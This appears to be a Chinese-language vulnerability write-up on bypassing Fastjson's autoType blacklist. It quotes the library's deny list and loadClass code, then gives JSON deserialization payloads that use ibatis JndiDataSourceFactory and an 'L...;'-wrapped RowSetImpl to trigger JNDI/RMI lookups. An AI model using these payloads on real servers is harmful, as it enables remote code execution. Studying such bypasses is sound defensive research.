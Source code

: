 ```java
                if (className.startsWith(accept) && TypeUtils.getClassFromMapping(typeName) == null) {

                    throw new JSONException("autoType is not support. " + typeName);

                }

            }

        }
```
黑名单+限制长度，第一版黑名单
```java
this.denyList = "bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.apache.xalan,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework".split(",");
```
黑名单绕过，利用ibatis
```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties"{"data_source":"rmi://localhost:1099/Exploit"}}
```
其他思路，该函数是先检查传入的@type的值是否是在黑名单里，然后再进入loadClass函数，这样的话如果loadClass函数里要是会对传入的class做一些处理的话，我们是不是就能绕过黑名单呢，跟进loadClass函数，
```java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {

    if (className != null && className.length() != 0) {

        Class<?> clazz = (Class)mappings.get(className);
        if (clazz != null) {

            return clazz;

        } else if (className.charAt(0) == '[') {

            Class<?> componentType = loadClass(className.substring(1), classLoader);

            return Array.newInstance(componentType, 0).getClass();

        } else if (className.startsWith("L") && className.endsWith(";")) {

            String newClassName = className.substring(1, className.length() - 1);

            return loadClass(newClassName, classLoader);
}
}
```
检查开头为`L`结尾为`;`则去掉这两个字符并加载，于是payload
```json
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
